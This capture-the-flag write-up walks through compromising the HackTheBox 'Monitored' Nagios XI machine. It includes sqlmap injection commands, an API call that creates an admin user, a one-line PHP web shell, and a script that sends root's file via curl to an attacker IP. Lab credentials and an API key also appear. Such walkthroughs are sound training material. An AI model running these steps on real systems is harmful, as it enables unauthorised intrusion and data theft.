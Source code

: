 ```yaml
---
title: HTB Monitored Writeup
author: Elus1nist
layout: post
date: 16 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/d4988810825d26acb2e84ca0ac9feaf4.png
---
```

---
---
## Enumerating Services and Open Ports

Welcome! This is my writeup of the new Medium machine from HTB, Monitored.

So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.248 
```
This gives us the scan results of:

```
Nmap scan report for 10.10.11.248
Host is up (0.082s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `nagios.monitored.htb` and a redirect so a dead end
- Port 389: LDAP - Since we have this service we can utilize ldap search or also assume SNMP and enumerate that
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating SNMP

Enumerating SNMP with `public` community string:
```
snmpwalk -v2c -c public 10.10.11.248
STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc ~~redacted~~"
```
This gives us a set of credentials that can be used to log into - 
https://nagios.monitored.htb/nagios/

Once logged in we can then follow the security advisory and launch an SQL Injection attack against an admin endpoint

---
---
## SQL Injection to dump User data

Using the information from a security advisory, I leveraged SQLMap to dump the backend DB:
```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users
```
| user_id | email | name | api_key | enabled | password | username | 
|---|---|---|---|---|---|---|
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin

We can now interact with the nagios API as an admin user!

---
---
## NagiosXI Admin Pivot

We can now use the nagiosxi API to create a new admin user:
```
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=ElusnAdmin&password=myadmin&name=myadmin&email=myadmin@localhost&auth_level=admin"
```
We can now login to the nagiosxi portal as an admin

*Insert Image here*

---
---
## Setting Up for PHP File Upload

The following steps were taken so as to be 
- Login to /nagiosxi/
- Go to https://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/manage.php
- Upload jpg -> rename to .htaccess -> rename back to test.jpg
- Upload php shell with jpg magic bytes: <?php system($_GET['cmd']); ?>;
- Visit the web shell and get a bash reverse shell
- pop shell as www-data

---
---
## Privilege Escalation Path

As an easy win, I first checked the output of `sudo -l` for commands that could be run as www-data:
```
sudo -l
User www-data may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/snmptt restart
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/messages
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/httpd/error_log
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/mysqld.log
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/repair_databases.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
```

A subsequent search of the linpeas output shows us a writable service executable path:
`/usr/local/nagios/bin/nagios`

---
---
## Privilege Escalation Exploit

### Step 1:

So first we generate a reverse shell executable on the attacker local box `rootrev.sh`:
```
#!/bin/bash
ls_content=$(<"/root/root.txt")
curl -o test "http://10.10.16.44:9001/${ls_content}"
```

### Step 2:
Spin up a python web server (This will be used to fetch stage 1 of the exploit + Recieve data from exfil)
```
sudo python3 -m http.server 9001
```

### Step 3:
Replace nagios executable on target box
```
curl http://10.10.16.44:9001/rootrev.sh -o /usr/local/nagios/bin/nagios
```

### Step 4:
Restart nagios service and gain root flag

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```